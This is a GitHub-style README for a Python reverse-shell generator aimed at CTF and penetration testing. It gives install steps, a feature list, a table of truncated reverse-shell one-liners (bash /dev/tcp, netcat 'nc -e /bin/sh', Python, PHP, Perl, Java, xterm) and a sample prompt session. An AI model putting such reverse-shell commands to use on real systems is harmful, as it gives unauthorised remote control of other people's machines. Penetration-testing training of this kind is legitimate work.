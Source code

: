 # 🔥 Reverse-shell-generator 
![](images/py.png)
## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports eighth languages: Bash, Python, PHP, Perl, Netcat, Java, Xterm and Powershell

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Язык   | Команда                                |
| - | ------ | -------------------------------------- |
| 1 | Bash   | `bash -i >& /dev/tcp/...`              |
| 2 | Python | `python3 -c 'import socket,...'`       |
| 3 | PHP    | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl   | `perl -e 'use Socket; ...'`            |
| 5 | Netcat | `nc -e /bin/sh ...`                    |
| 6 | Java   | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm  | `xterm -display IP:PORT`               |

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
